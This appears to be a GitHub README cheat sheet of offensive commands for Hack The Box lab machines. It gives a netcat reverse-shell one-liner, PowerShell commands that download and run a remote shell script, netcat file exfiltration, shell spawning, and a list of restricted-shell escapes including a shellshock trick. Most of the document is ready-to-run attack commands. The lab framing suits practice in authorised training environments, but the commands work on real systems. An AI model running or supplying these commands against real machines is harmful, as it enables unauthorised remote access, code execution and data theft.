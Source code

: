 # Hackthebox tools
**shell.php and shell.ps1** : Use for reverse shell when uploaded to vuln machine
```shell
# Listen for reverse shell
nc -lnvp <port number> 
# Use netcat for reverse shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip address> <port> >/tmp/f
```
**les.sh, LinEnum.sh, lse.sh (Recommended)** : Use for detect vuln in Linux machine

**Sherlock.ps1** : Use for detect vuln in Windows machine

### How to upload files to vuln linux machine
In your machine type : 
```shell
python -m SimpleHTTPServer
```
In vuln machine type : 
```shell
wget (your ip address):8000/(file to upload)
```
Example : 
```shell
wget 10.10.14.62:8000/les.sh
```
### How to execute powershell script to vuln windows machine
In your machine type : 
```shell
python -m SimpleHTTPServer
```
In vuln machine type : 
```shell
# if in powershell
IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
# or if in cmd
powershell IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
```
  
Example : 
```shell
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.12.81:8000/shell.ps1')
```
### How to spawn bash shell
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
### How to download file using netcat
```shell
# In your machine
nc -lnvp 6666 > file
# In vuln machine
nc -w 3 <your ip> 6666 < file
```
### How to escape rbash
```shell
ftp > !/bin/sh or !/bin/bash
gdb > !/bin/sh or !/bin/bash
more/man/less > !/bin/sh or !/bin/bash
vim > !/bin/sh or !/bin/bash
vim > :python import os; os.system("/bin/bash")
scp > scp -S /path/yourscript x y:
awk > awk 'BEGIN {system("/bin/sh or /bin/bash")}'
find > find / -name test -exec /bin/sh or /bin/bash \;
except > except spawn sh then sh.
python > python -c 'import os; os.system("/bin/sh")'
php > php -a then exec("sh -i");
perl > perl -e 'exec "/bin/sh";'
lua > os.execute('/bin/sh').
ruby > exec "/bin/sh"
ssh > ssh username@IP - t "/bin/sh" or "/bin/bash"
ssh2 > ssh username@IP -t "bash --noprofile"
ssh3 > ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
ssh4 > ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)
git > git help status > you can run it then !/bin/bash
pico > pico -s "/bin/bash" then you can write /bin/bash and then CTRL + T
zip > zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
tar > tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
### Useful website
